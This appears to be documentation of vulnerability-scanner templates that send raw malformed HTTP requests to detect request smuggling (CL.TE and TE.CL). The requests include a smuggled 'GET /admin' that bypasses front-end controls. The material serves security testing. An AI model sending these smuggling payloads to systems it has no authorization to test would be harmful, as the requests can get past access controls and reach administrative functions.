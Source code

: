 ```yaml
---
title: "Unsafe HTTP"
---
```


## Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

## Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

## Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```